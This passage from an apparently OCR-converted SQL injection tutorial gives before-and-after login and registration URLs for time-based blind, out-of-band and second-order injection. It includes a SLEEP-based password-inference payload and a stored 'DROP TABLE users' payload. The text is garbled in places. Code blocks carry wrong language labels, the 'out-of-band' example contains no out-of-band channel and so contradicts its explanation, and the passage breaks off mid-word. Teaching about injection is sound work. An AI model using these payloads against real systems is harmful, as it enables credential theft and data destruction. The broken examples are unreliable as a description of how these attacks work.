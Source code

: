 > >     arduino
> >      http://example.com/login?username=admin&password=password
> > After Injection:
> >
> >     bash
> >      http://example.com/login?username=admin'%20AND%20IF(SUBSTRING(password,1,1)='p',SLEEP(5),0)--&password=password
> > > INFO:
> > >
> > > The attacker uses a time delay to infer information based on how long the application takes to respond.
> <hr>
<br>

3. Out-of-band SQL Injection
> Method: GET (but typically relies on database features)<br>
> Before Injection:
>
>     arduino
>      http://example.com/login?username=admin&password=password
> After Injection:
>
>     vbnet
>      http://example.com/login?username='; SELECT COUNT(*) FROM users; --&password=password
> > INFO:
> > 
> > This injection may not directly show results in the URL but relies on the database executing a command that sends data elsewhere (e.g., to an attacker-controlled server).
> <hr>
<br>

4. Second Order SQL Injection
> Method: GET or POST (commonly POST during registration)
> Before Injection:
>
>     arduino
>      http://example.com/register?username=johndoe&password=securepass
> After Injection:
>
>     sql
>      http://example.com/register?username=''); DROP TABLE users; --&password=securepass
> > INFO:
> > 
> > This injection involves storing a payload that executes later when the application uses the stored data.
> <hr>
<br>

<hr>

Commonalit
> GET Requests: Easier to test directly through the URL, often used for retrieving data. Common for basic SQL injection testing.
>
> POST Requests: Used for submitting data, especially in forms like login or registration. While slightly more complex to test, they can be just as vulnerable.
